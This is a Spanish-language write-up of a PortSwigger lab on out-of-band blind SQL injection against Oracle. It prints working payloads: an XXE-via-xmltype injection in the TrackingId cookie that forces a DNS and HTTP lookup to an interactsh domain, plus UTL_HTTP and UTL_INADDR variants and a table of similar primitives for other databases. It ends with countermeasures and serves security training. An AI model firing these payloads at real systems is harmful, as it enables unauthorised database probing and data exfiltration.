

# Writeup: SQL injection with out-of-band interaction (PortSwigger)

- **Lab**: SQL injection with out-of-band interaction
- **URL**: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band
- **Categoría**: SQL Injection → Blind SQL injection → Out-of-Band (OAST)
- **Dificultad**: Practitioner
- **Estado**: ⚠️ **No solved** — requiere Burp Suite Professional (ver sección 6).

---

## 1. Objetivo

Continuación de la serie blind SQLi. Mismo punto de inyección (cookie `TrackingId`), pero ahora la query inyectada se ejecuta **asíncrona y fire-and-forget**:

- No afecta a la respuesta HTTP (descarta error/boolean-based).
- **No afecta al tiempo de respuesta** (descarta time-based — los `pg_sleep` o `WAITFOR` no se sienten en el cliente).
- No hay errores reflejados.

Eso rompe los tres canales que hemos usado en los labs anteriores. Solución: usar un canal **fuera de banda** (OOB / OAST). Forzar a la DB a hacer una conexión saliente (DNS lookup, HTTP request) hacia un dominio que controlamos. Si recibimos esa interacción en un listener → la inyección existe.

Para este lab basta con **provocar una sola interacción DNS**. No hay que exfiltrar datos (eso es el siguiente lab de la serie, `lab-out-of-band-data-exfiltration`).

---

## 2. Por qué cambia el motor: Oracle

Los labs blind anteriores eran PostgreSQL. Éste es **Oracle**. La razón es operativa: la técnica OOB clásica de PortSwigger usa `EXTRACTVALUE(xmltype(...))` con XXE — funcionalidad Oracle-específica. Otros motores tienen primitivas equivalentes:

| Motor | Primitivo OOB típico |
|---|---|
| **Oracle** | `EXTRACTVALUE(xmltype('<!DOCTYPE...>'))` (XXE), `UTL_HTTP.REQUEST(url)`, `UTL_INADDR.GET_HOST_ADDRESS(host)`, `DBMS_LDAP.INIT(host, port)` |
| **MS SQL Server** | `xp_dirtree '\\COLLAB\share'` (UNC path → SMB/NetBIOS lookup), `xp_fileexist`, `BULK INSERT FROM '\\COLLAB\share\f'` |
| **MySQL** (Windows) | `LOAD_FILE('\\\\COLLAB\\share')`, `SELECT ... INTO OUTFILE '\\\\COLLAB\\...'` |
| **PostgreSQL** | `COPY (SELECT '') TO PROGRAM 'curl http://...'` (requiere superuser, raro), extensiones `dblink`/`postgres_fdw` |

XXE en Oracle es la primitiva más limpia: no requiere permisos especiales, sólo que el parser XML resuelva entidades externas (comportamiento por defecto en versiones de Oracle hasta ~12c, y aún común en deployments más nuevos).

---

## 3. Setup — interactsh como receptor OOB

Burp Collaborator es la herramienta canónica, pero es **Pro-only**. Como alternativa gratuita usamos **interactsh** de ProjectDiscovery: corre un servidor público en `*.oast.me`, `*.oast.fun`, etc., y el cliente CLI hace polling para mostrarte las interacciones recibidas.

```bash
$ go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
$ interactsh-client
[INF] Listing 1 payload for OOB Testing
[INF] d7pcl8pbte56vtlf7dvg46dtfdyztgi7p.oast.me
```

Ese subdominio único es el receptor. Cualquier conexión DNS o HTTP hacia él aparece en la consola del cliente.

**Verificación previa** — antes de tocar el lab, comprobar que el receptor funciona haciendo un `dig` a un subdominio cualquiera bajo el dominio entregado:

```bash
$ dig +short test.d7pcl8pbte56vtlf7dvg46dtfdyztgi7p.oast.me @8.8.8.8
178.128.209.14
```

Y en la consola de interactsh-client:

```
[tEst.D7pcL8PBte56VTlf7dVG46dTfdYZTGi7p] Received DNS interaction (A) from 172.253.7.91
```

Receptor OK. Ya podemos usarlo como canal.

---

## 4. Construcción del payload

### XXE via xmltype

Oracle expone `xmltype()`, un constructor que parsea XML. Si el XML declara una entidad externa con `<!ENTITY % remote SYSTEM "http://...">` y la referencia con `%remote;`, el parser intenta resolver la URL — disparando un DNS lookup y un HTTP fetch desde la DB.

SQL completo (decodificado):

```sql
x' UNION SELECT EXTRACTVALUE(xmltype(
  '<?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://d7pcl8pbte56vtlf7dvg46dtfdyztgi7p.oast.me/"> %remote;]>'
), '/l') FROM dual--
```

Pieza por pieza:

- `x'` cierra la cadena del `WHERE id = '…'`.
- `UNION SELECT … FROM dual` añade una fila — `dual` es la pseudo-tabla de Oracle (siempre 1 fila, usada cuando se necesita un `FROM` pero no hay tabla real).
- `xmltype('<XML...>')` parsea el XML.
- `<!ENTITY % remote SYSTEM "http://...">` declara entidad externa apuntando a nuestro dominio.
- `%remote;` referencia la entidad → fuerza al parser a resolverla → DNS lookup + HTTP fetch.
- `EXTRACTVALUE(..., '/l')` envuelve el `xmltype` en algo que se ve "razonable" como columna del SELECT (la entidad ya disparó la conexión durante el parseo, antes de llegar a `EXTRACTVALUE`).
- `--` comenta la `'` huérfana que el wrapper añade.

### URL-encoded para meter en `TrackingId`

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//d7pcl8pbte56vtlf7dvg46dtfdyztgi7p.oast.me/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Encodings clave:
- `;` → `%3B` (delimitador de cookies, gotcha de los labs anteriores).
- `?` → `%3F` y `=` → `%3D` (algunos parsers de cookie los tratan como significativos).
- `:` → `%3A`.
- `%` → `%25` (para que el `% remote` literal del XML llegue intacto).
- ` ` → `+` (espacios).
- `'`, `"`, `<`, `>`, `[`, `]`, `(`, `)` quedan literales.

---

## 5. Diagnóstico — por qué no funciona

Mando la request con la cookie `TrackingId` cargada con el payload. Respuesta: 200 OK, body normal, ~1s.

**Sin interacciones en interactsh.** Esperaría ver al menos un DNS lookup. Diagnóstico sistemático:

### Hipótesis 1 — Burp manglea la cookie en HTTP/2

HTTP/2 tiene reglas más estrictas para headers. Caracteres como `<`, `>`, `"` podrían reescribirse o rechazarse.

**Test**: replicar la misma request con `curl` desde la línea de comandos.

```bash
curl -sk -o /dev/null -w "HTTP %{http_code} | %{time_total}s\n" \
  -H "Cookie: TrackingId=x'+UNION+SELECT+EXTRACTVALUE(...)..." \
  https://0a8600ca03b2f90880440890005c0085.web-security-academy.net/
# → HTTP 200 | 1.005s
# → interactsh: sin interacciones
```

Mismo resultado. **Descartado** — Burp no es el problema.

### Hipótesis 2 — `+` no decodifica a espacio en este lab

En los labs PostgreSQL anteriores (`blind-sqli-time-delays`), `+` se decodificaba a espacio. Pero distinto lab puede usar distinto framework con distinto comportamiento.

**Test**: reemplazar `+` por `%20` explícito.

```bash
curl ... -H "Cookie: TrackingId=x'%20UNION%20SELECT%20...%20FROM%20dual--"
# → HTTP 200 | sin interacciones
```

**Descartado**.

### Hipótesis 3 — El XXE específico está bloqueado / `xmltype` deshabilitado

Algunas versiones de Oracle tienen el resolver de entidades externas deshabilitado por seguridad. Probar primitivas alternativas más simples.

```sql
-- UTL_HTTP.REQUEST: hace un GET HTTP directo
x'||(SELECT UTL_HTTP.REQUEST('http://...oast.me') FROM dual)||'

-- UTL_INADDR.GET_HOST_ADDRESS: solo resuelve DNS
x'||UTL_INADDR.GET_HOST_ADDRESS('...oast.me')||'
```

Las dos: **HTTP 200, sin interacciones**.

Tres primitivas Oracle distintas, ninguna dispara. Eso es muy sospechoso — al menos una debería funcionar si la inyección estuviera reaching la DB.

### Hipótesis 4 — La cookie no se procesa como SQL en absoluto

**Test**: comparar tamaño de respuesta con/sin cookie de payload.

```
Sin cookie:           11473 bytes
Cookie normal:        11473 bytes
Cookie con payload:   11473 bytes
```

Idénticos. No diagnóstico — el lab dice explícitamente que la query es async y no afecta al body. Pero compatible con que la cookie sí se procesa.

### Hipótesis 5 (la correcta) — Firewall del lab

Volviendo al statement del lab en PortSwigger:

> "**Note**: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, **you must use Burp Collaborator's default public server**."

Este es el bloqueante. PortSwigger tiene un firewall outbound en su Academy que **sólo permite conexiones a `*.oastify.com`** (Burp Collaborator). interactsh corre en `*.oast.me` → bloqueado en la salida.

Por eso ninguna primitiva funciona: la query Oracle se ejecuta correctamente, el parser XML hace la resolución, el sistema operativo intenta el lookup DNS, y **el firewall del lab corta la salida antes de que llegue a Internet**. Desde el cliente (interactsh), nunca llega nada.

El payload era correcto. La técnica es correcta. La inyección probablemente está funcionando. Lo que falta es un receptor cuyo dominio esté en el allowlist del firewall — y ese sólo es `*.oastify.com` (Burp Collaborator, Pro-only).

---

## 6. Conclusión — lab efectivamente Pro-only

Este lab es resoluble con:

- **Burp Suite Professional** + Collaborator. Pulsas "Copy to clipboard" en Collaborator → te da un subdominio `*.oastify.com` → lo metes en el payload → mandas la request → Collaborator captura la interacción → click "Check now" → lab solved.
- **Tu propio servidor Collaborator privado**, configurado en un dominio que el firewall de PortSwigger acepte (no documentado públicamente). En la práctica, no viable.

**Sin Burp Pro**, el lab queda bloqueado por la política de PortSwigger Academy. No es un fallo nuestro ni de interactsh — es una decisión deliberada de PortSwigger para prevenir abuso de su infraestructura.

### Lo que sí queda capturado de la sesión

Aunque el lab no se marcó como solved, el ejercicio dejó conocimiento operativo concreto:

1. **Cuándo aparece la categoría OOB**: cuando los tres canales clásicos (error/boolean/time) están cerrados — típicamente queries async fire-and-forget.
2. **Primitivas OOB por motor de DB** (tabla en sección 2). Útil cuando aparezca el patrón en bug bounty / pentesting real (sin firewall).
3. **Patrón XXE via `xmltype`** en Oracle: `<!ENTITY % remote SYSTEM "...">` + `%remote;`. El parser resuelve la entidad durante el `xmltype()`, antes de devolver, así que no hace falta que `EXTRACTVALUE` "haga" nada — sólo que el `SELECT` sea sintácticamente válido.
4. **Workflow de diagnóstico cuando OOB no llega**: descartar Burp/HTTP → probar primitivas alternativas → comparar respuestas con/sin payload → revisar restricciones del lab/target. El último punto es el que falló aquí — el statement del lab incluía la limitación pero la pasé por alto al empezar.
5. **Limitación operacional concreta**: Academy de PortSwigger bloquea OOB hacia dominios distintos de `*.oastify.com`. Útil saberlo para los próximos labs OOB de la serie (al menos `lab-out-of-band-data-exfiltration` tendrá el mismo bloqueante).

### Lección meta

Antes de empezar a inyectar, **leer el statement completo del lab incluyendo notas/restricciones**. Habría ahorrado los 30 minutos de diagnóstico. La cita "our firewall blocks interactions between the labs and arbitrary external systems" estaba a la vista desde el inicio.

---

## 7. Resumen de la cadena (intentada)



---

## 8. Contramedidas

Específicas para mitigar SQLi OOB:

1. **Consultas parametrizadas**. Como siempre, la defensa principal contra cualquier SQLi.
2. **Egress filtering en la DB**: la cuenta del motor de DB (sistema operativo) no debería poder hacer conexiones salientes hacia Internet. Firewall a nivel de host bloqueando outbound. Es la contramedida más quirúrgica para OOB — aunque la inyección exista, no hay canal.
3. **Deshabilitar `xmltype` external entities**: para Oracle, `secure_xml_parser` o configurar el resolver para no fetchear DTDs externos. Análogo a lo que se hace contra XXE en parsers Java/Python.
4. **Privilegios mínimos**: la cuenta de DB no debería tener permiso para `UTL_HTTP`, `UTL_INADDR`, `DBMS_LDAP`, `xp_dirtree`, etc. Esas funciones sólo son necesarias para tareas administrativas muy específicas.
5. **Monitoreo de conexiones salientes desde la DB**: cualquier DNS lookup a un dominio externo desde el host de la DB es altamente anómalo. Alertar.

La estrategia que aplica PortSwigger Academy (firewall outbound restrictivo en el entorno de los labs) es justamente este tipo de mitigación llevado al extremo.

---

## 9. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: SQL injection with out-of-band interaction*. https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band
- PortSwigger Web Security Academy. (s.f.). *Out-of-band SQL injection*. https://portswigger.net/web-security/sql-injection/blind#out-of-band-oast-techniques
- PortSwigger Web Security Academy. (s.f.). *OAST (Out-of-band Application Security Testing)*. https://portswigger.net/burp/application-security-testing/oast
- ProjectDiscovery. (s.f.). *interactsh — OOB testing infrastructure*. https://github.com/projectdiscovery/interactsh
- Oracle Corporation. (s.f.). *XMLType API — `xmltype` constructor and entity resolution*. https://docs.oracle.com/cd/B28359_01/appdev.111/b28369/xdb04cre.htm
- OWASP Foundation. (s.f.). *Out-of-band Application Security Testing*. https://owasp.org/www-community/attacks/Blind_SQL_Injection
- Writeup propio: [`learning/portswigger/blind-sqli-time-delays/`](../blind-sqli-time-delays/writeup.md) — base time-based de la serie.
- Writeup propio: [`learning/portswigger/blind-sqli-time-delays-info-retrieval/`](../blind-sqli-time-delays-info-retrieval/writeup.md) — extracción time-based con script.
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-sqli.md`](../../../inventario/04-explotacion/web/explotacion-sqli.md)
